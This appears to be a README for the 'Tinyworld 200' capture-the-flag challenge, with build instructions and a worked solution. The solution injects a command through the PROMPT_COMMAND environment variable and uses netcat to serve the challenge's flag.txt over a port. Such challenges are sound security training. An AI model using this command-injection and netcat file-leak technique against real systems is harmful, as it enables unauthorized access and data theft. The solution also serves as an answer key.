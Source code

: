 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username challenge@addr -P 2222 where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

## Solution

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker build -t tinyworld-200 .

    docker run -d -p 2222:22 -p 2000-2100:2000-2100 --read-only --tmpfs /tmp tinyworld-200